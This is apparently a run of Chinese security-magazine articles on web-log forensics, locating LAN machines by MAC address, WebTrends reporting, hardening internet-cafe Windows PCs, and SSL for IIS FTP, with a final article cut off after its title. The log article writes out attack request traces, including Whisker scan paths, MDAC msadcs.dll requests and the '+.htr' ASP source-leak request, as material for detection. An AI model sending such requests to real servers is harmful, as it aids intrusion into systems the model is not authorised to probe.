（图4：其他管理工具对应名称）

### 2. 收集信息

我们模拟骇客攻击服务器的通常模式，先是收集信息，然后通过远程命令一步步实施入侵。我们使用的工具是 netcat 1.1 for Windows，Web 服务器 IP 为 10.22.1.100，客户端 IP 为 10.22.1.80。

```bash
C:\>nc -n 10.22.1.100 80
HEAD / HTTP/1.0
HTTP/1.1 200 OK
Server: Microsoft-IIS/4.0
Date: Sun, 08 Oct 2002 14:31:00 GMT
Content-Type: text/html
Set-Cookie: ASPSESSIONID...; path=/
Cache-control: private
```

在 IIS 和 Apache 的 log 里显示如下：

IIS: 15:08:44 10.22.1.80 HEAD /Default.asp 200

Linux: 10.22.1.80 - - [08/Oct/2002:15:56:39 -0700] "HEAD / HTTP/1.0" 200 0

以上的活动看上去很正常，也不会对服务器产生任何影响，但这通常是攻击的前奏。

### 3. Web 站点镜像

骇客经常镜像一个站点来帮助攻击服务器，常用来镜像的工具有 Windows 下的 Teleport Pro 和 UNIX 下的 Wget。

下面，我们看使用这两个工具后在服务器记录里的信息：

```text
16:28:52 10.22.1.80 GET /Default.asp 200
16:28:52 10.22.1.80 GET /robots.txt 404
```

```text
16:28:52 10.22.1.80 GET /header_protecting_your_privacy.gif 200
16:28:52 10.22.1.80 GET /header_fec_reqs.gif 200
16:28:55 10.22.1.80 GET /photo_contribs_sidebar.jpg 200
16:28:55 10.22.1.80 GET /g2klogo_white_bgd.gif 200
16:28:55 10.22.1.80 GET /header_contribute_on_line.gif 200
16:49:01 10.22.1.81 GET /Default.asp 200
16:49:01 10.22.1.81 GET /robots.txt 404
16:49:01 10.22.1.81 GET /header_contribute_on_line.gif 200
16:49:01 10.22.1.81 GET /g2klogo_white_bgd.gif 200
16:49:01 10.22.1.81 GET /photo_contribs_sidebar.jpg 200
16:49:01 10.22.1.81 GET /header_fec_reqs.gif 200
16:49:01 10.22.1.81 GET /header_protecting_your_privacy.gif 200
```

10.22.1.80 是使用 Wget 的 Unix 客户端，10.22.1.81 是使用 Teleport Pro 的 Windows 客户端，都请求 robots.txt 文件。robots.txt 是请求没有被镜像的文件时所要用到的。所以，看到有对 robots.txt 文件的请求，表明有镜像的企图。当然，在 Wget 和 Teleport Pro 客户端，可以手工禁止对 robots.txt 文件的访问。这时，辨别方法可以看是否有从同一 IP 地址来的重复资源请求。

### 4. 漏洞扫描

随着攻击的发展，我们可以用一些 Web 漏洞检查的软件，如 Whisker，它可以检查已知晓的各种漏洞，如 CGI 程序导致的安全隐患等。下面是运行 Whisker 1.4 的 IIS 和 Apache 的相关记录：

```text
IIS
12:07:56 10.22.1.81 GET /SiteServer/Publishing/viewcode.asp 404
12:07:56 10.22.1.81 GET /msadc/samples/adctest.asp 200
12:07:56 10.22.1.81 GET /advworks/equipment/catalog_type.asp 404
12:07:56 10.22.1.81 GET /iisadmpwd/aexp4b.htr 200
12:07:56 10.22.1.81 HEAD /scripts/samples/details.idc 200
12:07:56 10.22.1.81 GET /scripts/samples/details.idc 200
12:07:56 10.22.1.81 HEAD /scripts/samples/ctguestb.idc 200
12:07:56 10.22.1.81 GET /scripts/samples/ctguestb.idc 200
12:07:56 10.22.1.81 HEAD /scripts/tools/newdsn.exe 404
12:07:56 10.22.1.81 HEAD /msadc/msadcs.dll 200
12:07:56 10.22.1.81 GET /scripts/iisadmin/bdir.htr 200
12:07:56 10.22.1.81 HEAD /carbo.dll 404
12:07:56 10.22.1.81 HEAD /scripts/proxy/ 403
12:07:56 10.22.1.81 HEAD /scripts/proxy/w3proxy.dll 500
12:07:56 10.22.1.81 GET /scripts/proxy/w3proxy.dll 500

Apache
10.22.1.80 - - [08/Oct/2002:12:57:28 -0700] "GET /cfcache.map HTTP/1.0" 404 266
10.22.1.80 - - [08/Oct/2002:12:57:28 -0700] "GET /cfide/Administrator/startstop.html HTTP/1.0" 404 289
10.22.1.80 - - [08/Oct/2002:12:57:28 -0700] "GET /cfappman/index.cfm HTTP/1.0" 404 273
10.22.1.80 - - [08/Oct/2002:12:57:28 -0700] "GET /cgi-bin/ HTTP/1.0" 403 267
10.22.1.80 - - [08/Oct/2002:12:57:29 -0700] "GET /cgi-bin/dbmlparser.exe HTTP/1.0" 404 277
10.22.1.80 - - [08/Oct/2002:12:57:29 -0700] "HEAD /_vti_inf.html HTTP/1.0" 404 0
10.22.1.80 - - [08/Oct/2002:12:57:29 -0700] "HEAD /_vti_pvt/ HTTP/1.0" 404 0
10.22.1.80 - - [08/Oct/2002:12:57:29 -0700] "HEAD /cgi-bin/webdist.cgi HTTP/1.0" 404 0
10.22.1.80 - - [08/Oct/2002:12:57:29 -0700] "HEAD /cgi-bin/handler HTTP/1.0" 404 0
10.22.1.80 - - [08/Oct/2002:12:57:29 -0700] "HEAD /cgi-bin/wrap HTTP/1.0" 404 0
10.22.1.80 - - [08/Oct/2002:12:57:29 -0700] "HEAD /cgi-bin/pfdisplay.cgi HTTP/1.0" 404 ...
```

检查这种攻击的关键是看同一 IP 地址对 CGI 目录（IIS 是 scripts，Apache 是 cgi-bin）文件请求出现多个 404 状态。这时，就要检查相应 CGI 目录里的程序安全性。

### 5. 远程攻击

下面我们以针对 IIS 的 MDAC 攻击为例，来了解远程攻击在 log 里的记录情况。MDAC 漏洞使得攻击者可以在 Web 服务器端执行任何命令。

```text
17:48:49 10.22.1.80 GET /msadc/msadcs.dll 200
17:48:51 10.22.1.80 POST /msadc/msadcs.dll 200
```

当攻击发生后，在 log 会留下对 msadcs.dll 请求的记录。

另一个有名的攻击是 ASP 源代码泄漏的漏洞，当这种攻击发生时，log 文件会有如下记录：

```text
17:50:13 10.22.1.81 GET /default.asp+.htr 200
```

对于未授权访问的攻击记录，Apache log 会显示：

```text
[08/Oct/2002:18:58:29 -0700] "GET /private/ HTTP/1.0" 401 462
```

### 6. 总结

管理一个安全站点要求系统管理员具备安全的常识和警惕性，从不同的渠道了解安全知识，不仅能对付已发生的攻击，还能对将会发生的攻击做到较好的防范。而通过 Log 文件来了解和防范攻击是很重要但又经常容易忽略的手段。

IDS（入侵检测系统）能帮助你很多，但不能完全代替安全管理。仔细检查 Log、IDS 所遗漏的东西，就可能在这里发现。

## 如何在局域网内定位某台计算机的位置

文 / 把子

前几天帮朋友在他们学校追查了一台在论坛上乱上传图片的计算机，下面将追踪的思路和过程写下来，希望对同行有所帮助。

朋友的学校是千兆以太网，大约有 500 多台计算机，划分了虚网，没有做 IP 地址和 MAC 地址绑定。作乱的计算机是自己设的 IP，没有登记在册，要想抓住证据必须精确定位该计算机的位置。

### 一、原理

要想找到局域网内的某台计算机，首先要明白以太网内计算机是如何通信的。接在以太网内的计算机要和其他计算机进行通信，需要安装网卡，并且安装好网卡驱动程序。而每块网卡在出厂时都有一个唯一的、不与世界上任何一块网卡重复的硬件地址，称为 MAC 地址，MAC 通常用十六进制表示（如 00-AA-00-3F-89-4A）。当网络中两台计算机使用 TCP/IP 通信时，网卡还必须绑定一个唯一的 IP 地址。

下面我们从 TCP/IP 模型的角度来看数据包在局域网内发送的过程：当数据由应用层自上而下地传递时，在网络层形成 IP 数据报，再向下到达数据链路层，由数据链路层将 IP 数据报分割为数据帧，增加以太网包头，再向下一层发送。以太网的包头中包含着本机和目标设备的 MAC 地址，也就是说，链路层的数据帧发送时，是依靠 48 bits 的 MAC 地址而非 IP 地址来确认的。以太网的网卡设备驱动程序不会关心 IP 数据报中的目的 IP 地址，它所需要的仅仅是 MAC 地址。

那么，目标 IP 的 MAC 地址又是如何获得的呢？发送主机会向以太网上的每个主机发送一份包含目的 IP 地址的以太网数据帧（称为 ARP 数据包），并期望目的主机回复，从而得到目的主机对应的 MAC 地址，并将这个 MAC 地址存入自己的一个 ARP 缓存内。

当局域网内的主机通过 Hub 等方式连接时，一般都称为共享式连接。这种共享式连接有一个很明显的特点：Hub 会将接收到的所有数据向 Hub 上的每个端口转发。Hub 是不可管理的，它只是转发数据并不保存数据。而交换机不同于 Hub 的特性之一，就是在交换机内部维护着一张 MAC 地址对应表，只要是通过该交换机进行通信的计算机网卡 MAC 都会记录在该表中。

### 二、思路

通过以太网的通信原理，可以理出一个定位计算机位置的思路：首先查出该计算机网卡的 MAC 地址，这样就确定了该计算机的唯一性；然后根据交换机保存网卡 MAC 地址的特性可以在相应交换机中找到该 MAC 地址，继而查出该计算机在交换机中对应的端口，这样对照综合布线表就能定位到该计算机。

### 三、实现的具体步骤

- 1. 查找该计算机网卡的 MAC 地址

在同一子网内查找对方 MAC 地址的一般方法是先 ping 对方计算机，ping 通后在命令方式用 `arp -a` 命令即可查到对方的 MAC 地址（Windows 98 运行 command，Windows 2000 运行 cmd 将进入 DOS 命令方式）。

不同子网只能靠软件来查找 MAC 地址。在网上没费什么劲就找了个非常好用的 MAC 扫描器，下载地址为：http://ychliang.y365.com/，你也可以在 www.google.com 中输入“MAC 扫描器”，将会出现很多类似的软件。MAC 扫描器是个绿色软件无需安装。要找的那台计算机和网管不在同一子网内，图 1 是查找到的那台计算机的 MAC 地址。

图 1

#### 2. 查找该计算机对应的交换机

朋友学校统一用的是 3COM 交换机。根据拓扑结构图，在浏览器中输入要查找的交换机的 IP 地址，输入用户名口令后选择 Switch Database，出现如图 2 所示界面。

图 2

从图 2 可以清楚地找出在该交换机的 25 口中有那台计算机的 MAC 地址。该计算机接在该交换机的 25 口？仔细看图 2 发现通过 25 口有多个 MAC 地址，可以断定 25 口是个公共出口，那台计算机没有接这个交换机上，但可以肯定是在和这台交换机级联的某台交换机中。按着拓扑图顺藤摸瓜，在下层交换机中终于找到了，图 3 是该交换机的 MAC 地址表。

图 3

从图 3 可以清楚地找出在该交换机的 17 口中有那台计算机的 MAC 地址，通过跟踪观察该端口没有别的 MAC 地址，可以判断该计算机接在该交换机的 17 口。剩下的事就比较简单了，按综合布线表登记的线序去找就行了。据说有些基于 SNMP 的网管软件可以迅速定位局域网内某台计算机的位置，我没用过，你如果用过请贡献给大家，让追踪不再这么麻烦。

作为一个合格的网站管理员，常常需要面对一个超大的日志分析，它们不但工作量大，而且容易出错。如果有一套软件能够帮助分析日志，而且能生成直观的统计图，那多方便呀！对，那就是 WEBTRENDS！并且对于安全管理上，日志分析是必不可少的作业。手动分析在日志量非常大的情况下会变得复杂，所以 WEBTRENDS 给广大管理员带来了福音。

WEBTRENDS 对多种网络服务的日志支持、分析以及页面的点击和来源等都提供了详细的报表，实在是不可多得的必备工具。

## WEBTRENDS 应用实例

WEBTRENDS 是一套非常好的日志分析软件，它可以很方便地生成日报、周报和月报等，并有多种图表生成方式，如柱状图、曲线图、饼图等。通过它你还可以查到浏览者的来访地、停留时间、浏览器类型，以及他们对哪些版块更感兴趣！想了解你的访问者到底对你的站点什么产品感兴趣吗？通过 WEBTRENDS 可以远程分析或者本机本地分析访问日志，功能十分强大。

WEBTRENDS 就对其访问作记录。管理员可以通过远程连接的方式来访问日志。在完全安装完 WEBTRENDS 的专业版的时候，让我们来看看如何设置启用 WEBTRENDS。点击“新建站点”我们就可以设置我们的站点了，这是建立站点访问都必须经过的一个步骤。

### 一、创建日志站点

WEBTRENDS 现在最新的版本是 6.5，在这个版本中改进最大的是 FTP 日志记录的部分。最新版可以很好地支持 WU-FTP、Jgaa War-FTP、IPSwitch's WS-FTP 以及 Microsoft IIS FTP（W3C Extended Log 文件格式）。通常日志文件的大小常常困惑网络运营者，稍微大一点的站点采用普通日志文件就会占据大量的磁盘空间，但是 WEBTRENDS 现在支持 ZIP 压缩格式存储日志文件，大大节约了存储空间。还是让我们先来了解一下 WEBTRENDS 的管理使用方式，如图 1 所示。

首先我们点“新建”，便开始了对新站点的设置。我们这里有一个“视频点播”的站点需要做访问日志。接下来我们会设置 LOG 文件的存放方式。WEBTRENDS 支持多种存放方式，包括 HTTP、FTP、本地硬盘，还特别支持 ODBC 数据库。日志文件的格式也是多种多样。为了操作的灵活性，建议大家选择 “AUTO-detect log file type”，如图 2 所示。点下一步骤，我们就可以设置站点日志的附加选项：我们设置站点的日志 IP 采用查询 DNS 的方式。其实，用户不必在这个上面多下工夫了解。再接下来，我们就可以点下一步设置，如图 3 所示。

图 2

图 3

这里很重要。我们要在其中设置我们站点的首页文件名以及我们站点的 URL 名字。

点“下一步”，我们就需要设置 WEBTRENDS 对我们站点的什么类型文件做日志。默认是所有文件类型，这个不需要改动。最后两个步骤是选择日志的生成形式，我们可以选择快速数据库日志生成性质。短短几个步骤下来，我们就完成了一个站点日志的创建。我们现在需要做的就是等待一定的访问量以后，对我们的日志进行分析。

### 二、日志报表生成

当我们的访问量有了一定数量以后，就可以查看报表。报表需要事先生成，过程很简单：选中我们的视频站点，然后点工具栏上的“REPORT”图标。先看图 4：

从图中我们看到，可以先选择日志的产生时间，WEBTRENDS 提供了很多时间选择点，默认选择是所有时间的日志。

图 4

在这里我们选择前两个星期的日志。日志格式一栏里，我们看到更丰富的选择，如图 5 所示：

图 5

我们可以选择 HTML 文件格式。如果要存档，我们可以选择电子表格格式。总之，它对 Office 很兼容。我们可以根据自己的选择存取档案。

一般来说，我们要把网站访问记录刻盘存档。在这里我们选择电子表格方式，以方便日后分析。后面几个项目就是设置报表的风格、报表的标题和栏目名字，以及我们对日志的哪个部分感兴趣。通常，我们会关注访问者的 IP、访问时间、访问内容、总共访问人数等等。全部设置完以后，就可以点开始按钮进行日志生成了，很快我们就得到了属于自己站点的信息。

### 三、需要我们感兴趣的东西

通过日志，我们可以得到很多信息，如图 6 所示。如果某个“电影”的访问量大，说明这个电影就很受欢迎，于是我们就可以多提供此类型的“电影”在网上。通过日志生成，我们可以得到下面的一些访问信息。

#### 普通信息提示

在这个栏目里面，我们可以看到我们的站点在几天内的访问情况，找出人流访问最大的时刻（图 7）。平时在这些时刻里，机器最容易出现满员情况，所以我们就可以在网站负荷最大的时段提高警惕。在这个页面里面我们还可以得到：

- 站点每天的平均点击量
- 站点每个页面的平均访问量
- 主页的点击率
- 至今没有被访问者访问到的页面数量和具体页面
- 从美国等国家访问这个站点的人数
- 只访问一次就离开页面的人数
- 具体资源访问信息

通过上面的信息，我们可以具体看到到底哪些页面访问量最大、访问者停留了多久。这样你就可以看到访问者到你的站点都想获得什么信息。

在这个栏目里面我们还可以得到下面的信息：

- Top Pages
- Top Documents
- Dynamic Pages & Forms
- Top Entry Pages
- Top Entry Files
- Top Exit Pages
- Single Access Pages
- Top Directories
- Top Paths Through Site
- Most Downloaded Files
- Most Accessed File Types

> 技巧：  
> 仔细查看日志信息，我们还可以知道是谁对我们的站点进行了扫描探测，具体是什么位置，扫描时间持续了多久等。因为当对方扫描我们的站点时，也等于对我们的站点进行了访问。这不，全部被 WEBTRENDS 记录下来了。作为一个管理员，你该知道怎么利用你的报表文件了吧。

WEBTRENDS 其实是一个功能很强大的软件，简单几句话不能把它所有功能都说完。希望能够借这篇文章让更多管理员了解自己的站点需要什么，以及怎么管理。可能需要了解这些信息的人也应该包括网络运营者吧。

网上充斥着针对破解网吧封锁权限的文章，手段也越来越高明：从 Javascript 技术构架的在线破解系统，到 ActiveX 技术构架的在线破解系统，其破解手段及技术含量、技术成熟度越来越高。读取还原精灵等软件描述的密码已是小儿科，甚至发展到了调取 16 位 MS-DOS 程序来破解硬件硬盘保护卡、硬盘还原卡密码。面对越来越成熟的破解手段，网吧管理也越来越走向一个窘迫的处境，网管面临严峻挑战：在 BOSS 严厉要求和客户百般挑剔之间，怎样才能走出一条技术之路？怎样才能让自己辛辛苦苦做出来的心血不至于付之东流？接下来，就让我们掀起来自网管的反击吧！

## 来自网管的反击

文 / rongke

在这场反击战之前，我必须向“网吧黑客”声明：我们完全可以终结长久以来“网吧杀手”混战的局面。但基于资金和各方面原因，条件不允许我们打造一个高效安全的网吧，也就导致本文出现了“加固篇”和“增强篇”两个版本。可以这样说，除了一切物理破坏的可能，这两个版本中所做出的安全防御都能很好地抵挡当今流行的攻击手段。

基于当今 95% 的网吧都还在使用 Windows 98 或 Windows Me 这个毫无本地安全性可言的操作系统作为网吧操作平台，也出于众网吧大都在使用万象、美萍和方竹等网吧管理软件，暂且不说它们没能从操作系统内核上入手而导致用户权限改造失败，先说说我们怎样才能做到全方位杜绝网吧黑客的肆意破坏。就让我们在原有基础上，一步一步加固系统，完成“加固篇”。

### 一、加固篇

首先，为了避免从 OS 的底层进行破坏，我们必须为 BIOS 设置一个强壮密码，禁止使用热键，包括 Ctrl+Alt+Del 和 Alt+Tab 等，开机屏蔽 F4、F5、F8 键。出于当今闪盘、U 盘的流行，可考虑把 USB 接口屏蔽，或者干脆禁止 USB 的使用。这是我们在系统启动前所能做的一些防护手段，当然还有很多。

其次，对于使用万象等网管软件的用户，万象所能做的一些设置我们就不用了。对于一个失败的软件来说，我们之所以采用它，是把它当作一个计费软件来使用而已。由于 Windows 98 本身是一个脆弱、开放的系统，所以我们需要利用一些第三方软件进行设置，从而对系统进行保护。

应用工具：硬盘文件卫士 Protect Z、ieprosetupv1_2_2p.exe、eXeScope。

- 1. 安装与基本设置  
- 2. 保护文件

安装 Protect Z 结束以后，一定要重新启动计算机，才能最后完成安装。安装完成后启动程序可打开一个设置窗口。工作窗口右上角的 ON/OFF 开关显然是控制程序是否起作用的，默认处于 ON 状态，以红色显示，表示程序功能打开，相应保护功能生效，不能随意访问文档。如果将开关置于 OFF 位置，开关就以绿色显示，表示可以访问相应文档，如图 1 所示。

图 1

通过工作窗口左边的文件夹列表区域找到要保护文件所在的文件夹并选定，而后单击工具栏上的 Add（添加）按钮可打开一个对话框。这个对话框供用户设置保护指定文件夹中的哪些文件，以及设置保护级别。文件范围可以通过通配符设置，保护级别可以通过相应符号指定。具体保护级别在程序帮助文件中讲得很清楚，这里不再赘述。设置好以后，单击对话框里的 OK 按钮，即可将该文件夹的路径名添加到工作窗口右边的列表区域。重复同样过程，可以添加多个要保护的文件夹（如系统文件夹、万象软件等），并设置其中要保护的文件类型。这时窗口最右边选项区域里的所有选项都可以使用了。

将所有要保护的文件夹添加到工作窗口右边列表区域中以后，每个文件夹项目都可以通过启用或禁止复选项目的方式，随时更改其受保护状态。这个复选项目就是工作窗口最右边选项列表中最上边的 Enable。选定一个文件夹项目，再设置这个复选项目状态即可。保护文件夹的选项除了 Enable 这个总设置以外，还有 Delete file(s)、Create file(s)、Read file(s)、Rename file(s) 以及 Open file(s) 等多种。在一个项目总控制选项处于保护状态下，启用一个复选项目以后，就表示这个文件夹中不能进行相应操作。例如，启用了 Open file(s) 后，相应文件夹中的文件不能被打开；启用了 Open Folder（打开文件夹）后，相应文件夹不能打开；启用了 Delete file(s) 后，相应文件夹中的文件不能被删除，等等。通过启用相应复选项目，就可以实现保护文件夹中文件的目的。

虽然没有将文件隐藏起来，但实际上已经不可访问。需要注意的是，每次设置好复选项目状态以后，必须单击工具栏上的 Apply（应用）按钮才能使相应设置生效。保护状态确定以后，就只能通过 ProtectZ 程序才能加以改变，而启动 ProtectZ 程序需要密码。这里强烈建议把你所需要保护的文件夹加到列表中，并将 Delete file(s)、Create file(s)、Rename file(s)、Write file(s)、Execute file(s)、Delete folder、Make subfolder 等选项选中。这样你所选定的文件夹就不能被删、不能创建文件、不能重命名、不能写文件、不能剪切文件、不能删除文件夹、不能创建文件夹，从而很好地限制一些客户的破坏性操作。具体限制可以根据需要修改。在这个软件的限制下，一般用户很难再更改你的设置。

#### 3. 禁止随意启动 ProtectZ 程序

在 ProtectZ 工作窗口中，单击工具栏上的 Options 按钮打开图 2 所示对话框。单击对话框中的 Change passwd 按钮，可打开一个对话框供设置密码。密码设置好以后，再启动 ProtectZ 程序时，就需要提供正确密码才能打开其工作窗口，进而更改原来设定的保护属性。强烈建议使用一个强壮密码，热键设置为较少用的热键，如 Ctrl+`。单击工作窗口工具栏上的 Additionals（附加）按钮可打开 Additional policies（附加规则）对话框，进行其他一些设置。强烈推荐你按图 3 设置，它杜绝了非法用户进行非法设置的可能，图 3 所示的是其中的 System 选项卡。

图 2

图 3

还有更多设置，你可以自己酌情考虑。

经过以上设置，不要我解说你也应该看懂了吧：非法用户在你的系统上基本不能进行任何非法操作，比如从 IE 中进入各分区、修改注册表、删除系统文件、创建文件、开共享、修改个性化设置等。以往的一切破解方法都失效。当然你可以赋予他们一定权限，比如虚拟出一个特定文件夹给他们任意支配，毕竟满足客户需要也是网管职责。但经过以上设置还远远不够，因为如果没有对下载进行限制，上面的一切操作都是徒劳。非法用户可以通过下载一些软件作出相应修改。接下来，我们针对当今流行的破解方法一一破解之。

针对利用超文本协议下载（具体方法可参看《黑防》2003 第 4 期），我们可以这样完美破解：将 IE“文件”中的“另存为”选项禁止，禁用“另存为 Web 页”。这些都可以通过修改注册表实现。但为了让众网管高效、安全地进行修改，我们还提供一个简单易用的 IE 设置工具 ieprosetupv1.2_2p.exe（见附件）。

- 1. 针对利用 FTP 方法下载，这更简单：我们可以把 ftp.exe 删掉，禁止 .com 程序运行，或者禁止用户访问系统文件夹。  
- 2. 针对利用 QQ 进行传送文件，也可以很容易实现：在主机装个防火墙，过滤一些数据包，或者利用 eXeScope 对 QQ 进行修改，把 QQ 中文件里的“保存”控件删除；安装 QQ 时不要安装腾讯浏览器。  
- 3. 在 IE 中要禁止任何文件下载，并把 IE 选项设置为不可操作，如图 4 所示。  
- 4. 至于 Javascript 技术构架在线破解系统和 ActiveX 技术构架在线破解系统，我们可以禁止 Javascript、ActiveX 插件和控件运行。这一切都可以通过 ieprosetup 实现。还有更多功能，请自行选择。可以说，通过这两个软件，我们可以方便快捷地破解当今流行的一切破解手段。

图 4

### 三、增强篇

增强篇完全是建立在基于 NT 内核的 Windows 2000 的基础上。由于 Windows 2000 是一个完整的多用户网络操作系统，因此它的安全性能和稳定性与 Windows 98 相比是天壤之别。利用 Windows 2000，结合 NTFS 格式的磁盘格式，我们完全可以做到隐藏分区、禁止下载、禁止访问磁盘、禁止执行特定程序，而且做到这一切都很简单，完全没有必要通过修改注册表实现。因为这一切都是用户权限所造成的，是从系统内核上打造出来的安全系统。接下来就开始我们的部署。

- 1. 为客户机安装 Windows 2000 Professional，在安装过程中采用 NTFS 格式化安装分区，其余分区待系统安装完毕后再采用 NTFS 格式化。切记：一定要用 NTFS 格式化所有分区。  
- 2. 安装完系统后，要严格按照规范安装所有驱动程序。这个问题非常重要。Windows 2000 对硬件稳定性和兼容性要求很高，特别是对于威盛和英特尔的大部分芯片组来说，请务必在安装显卡和声卡驱动之前先安装主板驱动和补丁。显卡请关注厂商发布的最新驱动，声卡用驱动光盘附带驱动即可，网卡更不用说了。  
- 3. 接下来，必须为 Windows 2000 打上各种补丁，如 SP3 等。这很容易解决，《黑防》每期光盘都会附带相应漏洞补丁，请关注。IE 版本强烈建议升级到最高版本，并打上各安全补丁，从而最大限度减少从本地破坏的可能。  
- 4. 做完这些前期工作，就进行客户机安全配置。

接着谈用户账户设置。首先为管理员设置一个账户和一个强壮密码，这一点很重要，必须是强壮且无规律性的。在此强烈建议把 administrator 改成不起眼的名称。

其次，为本地登录客户建立一个账号 guester。请在管理工具中的“本地用户和组”中添加，把“用户下次登录需要更改密码”去掉，选中“用户不能更改密码”和“密码永不过期”，单击“创建”即可完成操作。

图 6

然后，必须为用户设定权限。我们利用 Windows 2000 的高级磁盘管理功能来限定一般用户权限。我们设定客人无法读取 C 盘，无法向任何分区写入文件。当然根据 Windows 2000 的安全配置选项，客人可以在其配置文件夹进行一切操作，这就能满足一些合法用户要求。首先，用鼠标右键点击 C 盘，选择“安全”选项卡，可以发现系统默认是 Everyone 完全控制 C 盘。我们把它从列表中删除，然后添加 Administrators 组，确定后退出，并将 Administrators 组设置为完全控制，如图 5 所示。

这时会发现以 guester 登录后，不能访问 C 盘。但这样还不够，因为 guester 不能运行 C 盘下另外安装的软件，所以还需要把所有娱乐、应用软件装在其他分区。除了你不允许用户访问的软件装在系统分区上，其他分区也采用如图 7 一样设置外，我们还要添加 guester 组，并设置适当权限，只允许“读取及运行”“列出文件夹目录”“读取”，如图 6 所示。

图 5

这样，客人除了以上操作外，无法向磁盘写东西。这很好地满足了 boss 和客户的需要。

由于 NTFS 的可继承性，当我们设定了磁盘访问权限之后，也就设定了磁盘内所有文件夹和程序的权限。那不意味着用户可以访问和读取注册表编辑器？很简单，我们可以这样设置：在“安全选项卡”中把“Users”和“Everyone”用户组删除。要注意的是我们需要把 regedit.exe（在 c:\winnt\）和 regedt32.exe（在 c:\winnt\system32\）进行相同设置，这样就很好地限制了用户的注册表操作。同样地，我们还要对以下程序进行相同设置：网吧管理软件、MMC.exe。

还有更多设置可以通过“组策略”来实现，或者通过一些系统软件进行更为变态的设置，如禁止访问控制面板、右键菜单等。

由于以上配置的 Windows 2000 已经让系统达到了足够安全性，已经很难利用当今流行破解手段进行破解，在这里在线破解系统已经无能为力，所以也就没有对下载进行限制的必要了。这样也就给客户一个相对宽松、自由的上网环境。我们唯一还需要做的就是装上一个杀毒软件，防止病毒横行。

经过以上两个方案比较，我们发现后者明显比前者工作量少、易维护，但也要求机器配置要过得去，技术要求性更强。

由于现在网吧普通上网方式是通过 Hub 或交换机 + ADSL 共享上网，所以为了避免客人免费帮你设置 ADSL 猫，我们还需要给猫设置一个强壮密码，不能采用默认设置。经过我的调查，52% 的网吧都没能修改 ADSL modem 的默认密码，使其暴露于网络上，这是很危险的，也就出现了利用路由器或者交换机做跳板的教程。当然，我们不想看到设备被这样糟蹋。

如图 7 所示，在 IE 浏览器中输入 192.168.1.1 就可以调出。接下来，我们就为其设置一个强壮的密码，如图 8 所示。

图 7

图 8

只有杜绝了服务器被攻击的可能，结合客户机安全，这个网吧在技术上来说才是安全的。为客户创造一个舒适、宽松的上网环境，同时有效维护网吧安全，这样的网管才是尽职的！

Glub Tech Secure 是一款适用于 FTP 辅助的软件，它是一款命令行、支持 SSL 加密的 FTP 客户端工具，一直以来未受到很多用户青睐。本文就是笔者针对这款软件的一个详尽说明，希望能对读者有所帮助。

## 让微软的 FTP 服务器也用上 SSL

文／朱宏志

现在有很多 FTP 服务器软件都支持 SSL 了，但微软却没有对 IIS 中的 FTP 提供 SSL 支持（虽然它对 IIS 的 Web 服务提供了 SSL 支持）。那有什么办法让微软的 FTP 也用上 SSL 呢？在微软提供支持之前，看起来只有利用第三方软件来达到目的了。在这里就有一款软件：来自 Glub Tech 公司的 Secure FTP Wrapper（以下简称 SFW）。从它的名字就可以看出，它是一种专为没有 SSL 功能的 FTP 服务器提供 SSL 支持的外壳软件。即它本身并不是一款 FTP 服务器软件，它只是为其他 FTP 服务器提供 SSL 支持。

SFW 的试用版在下载之前会要求你填写一些信息，其中有一个页面要求填写你的邮件地址和 FTP 服务器的 IP 地址，请务必填写正确，因为它会给你发送一个许可文件，而且这个许可文件就是针对你所填写 FTP 服务器 IP 地址的。由于 Secure FTP Wrapper 的运行需要 JAVA 运行环境（版本 1.3 以上）支持，所以在安装 SFW 之前，你需要在命令行下用 `java -version` 命令检查计算机上的 JAVA 版本。如果命令不能执行，或执行后发现版本低于 1.3，那么请先到 http://www.sun.com.cn 下载并安装更新的 JAVA 版本（比如 J2SE 1.4）。在保证 JAVA 运行环境满足要求之后，你就可以安装 SFW 了。它的安装很简单，一路“Next”即可。

### 一、下载与安装

你可以到 http://www.glub.com 网站去下载。

### 二、产生或导入一个 FTP 服务器证书

要实现 SSL 功能，首先 FTP 服务器要有一个证书。SFW 可以为它生成一个证书，也可以把已有的证书导入。安装完成之后，SFW 就会打开一个证书配置向导，下面是简单的步骤说明：

- 1. 跳过声明界面，进入如图 1 所示的画面，在“IP Address”填入 FTP 服务器的 IP 地址，也就是你在下载之前填写的 FTP 服务器 IP 地址，完成后进入下一个窗口。  


- 2. 在这个窗口中填入证书的各项信息（图 2）。如果已经有了一个证书，还可以点击“Advanced”单选框导入一个已经存在的证书。完成后进入下一个窗口，点击“Finish”按钮就会开始生成证书的过程。  


### 三、启用 SFW

上面的步骤完成后，把发给你的许可文件复制到 SFW 的安装目录中，然后点击桌面上的 SFW 图标，就可为这台计算机上的 FTP 服务器提供 SSL 支持了，并不需要再进行其他设置。从这里可以看出，SFW 不但适用于微软的 FTP，而且还可以用来为其他的 FTP 服务器提供 SSL 支持。由于它运行在 JAVA 环境中，所以它也能够为 UNIX 系统下的 FTP 提供 SSL 支持。

### 四、客户端的连接

Glub Tech 公司为我们提供了一个免费的 FTP 客户端：Secure FTP。它支持通过 SSL 与 FTP 服务器连接，它不光可以作为 SFW 的配套客户端，而且也能够作为其他提供 SSL 支持的 FTP 服务器的客户端。它的运行也需要 JAVA 支持，检测与下载同前面一样，这里就不再说了。Secure FTP 也在 http://www.glub.com 下载。  


- 使用方法：
- 1. 点击工具栏最左边的红绿灯图标，出现如图 3 所示的连接窗口。在“HostName”中填入 FTP 服务器的地址，在“Username”和“Password”中分别填入账户名和对应的密码。如果你要经常使用这个连接，把“Save to Bookmarks”也勾选上。  


- 2. 切换到“Security”标签，在“Security”栏中选择“Implicit SSL”。如果选择“None”，就不会使用 SSL 功能。选中下面的“Data Encryption”，完成后点击下面的“Connect”按钮即可（图 4）。

说明：由于是 SSL 连接，所以连接时间比正常连接要久。连接成功后，第一次使用还会弹出接受证书的对话框，点击右边的“Grant Always”按钮即可（如图 5）。  


在很多黑客攻击事件中，攻击者成功获取管理员权限往往最初都是从拿到普通用户权限开始的。只要连上互联网，任何人都可以非常方便地下载到令人满意的弱密码扫描工具。既然如此，你还允许你的机器中含有弱密码用户吗？肯定不会，那我们如何对弱密码进行限制呢？若不对其限制会有哪些危害呢？看完本文，或许你会有所感悟。

## Windows 2000 账户密码的攻击方法以及对抗策略


文／单长虹

